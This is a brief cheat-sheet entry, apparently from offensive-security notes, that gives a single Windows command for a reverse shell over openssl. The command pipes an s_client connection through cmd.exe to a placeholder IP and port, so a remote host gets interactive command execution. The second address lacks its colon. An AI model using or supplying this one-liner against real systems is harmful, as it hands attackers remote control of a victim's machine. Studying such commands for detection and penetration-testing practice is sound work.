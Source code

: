 # (Reverse-) Shell via openssl

```bash cheat openssl openssl (reverse) shell
openssl.exe s_client -quiet -connect <ip>:<port> | cmd.exe | openssl.exe s_client -quiet -connect <ip><port>
```

tags: #openssl #shell 
